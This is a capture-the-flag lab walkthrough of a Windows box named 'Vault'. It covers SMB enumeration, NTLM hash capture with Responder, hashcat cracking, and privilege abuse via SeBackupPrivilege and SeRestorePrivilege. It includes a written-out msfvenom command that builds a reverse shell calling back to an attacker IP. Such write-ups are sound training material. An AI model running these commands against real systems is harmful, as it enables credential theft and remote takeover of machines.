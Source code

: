 # Vault

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

i add the domain in my hosts file and look for anonymous access and smb shares:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

The write permission on a share is rather unusual to my knowledge in those types off boxes but i already saw it during some previous stuff so i tried using responder to catch some NTML creds:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

this is rather strange since i did not do anything, maybe something to do with the fact that i added the domain in my hosts file idk. since i won't be lucky like this every time here is a good article about abusing NTLM relay attacks:

{% embed url="https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/" %}

Or this one:

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

Then i launch my hashcat:

```
hashcat -m 5600 /usr/share/wordlists/rockyou.txt.gz ntmlhash.txt
```

{% hint style="info" %}
_**added after completing the box**_: I looked at the WU to maybe discover other routes or techniques and this writeup does a very good job at explaining how to exploit writeable shares&#x20;
{% endhint %}

and i discovered the password and quickly understand why this box is rated easy:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Ok i didn't say anything i can't read proof.txt yet:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

But i quickly see that i have SeBackupPrivilege

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md" %}

So i follow all the steps and manage to dump the admin hash:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and it does not work lol:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I looked and this account does not have winrm rights, ouch the box seems a bit trickier than expected

I thought to myselft that i jumped on SeBackupPrivilege so quickly that i did not look into the other privileges such as the restore privilege:

{% embed url="https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------" %}

After looking at how the script works we need to craft a reverse shell exe to use it as an argument:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

for some reason it did not work until i put the absolute path of reverse.exe
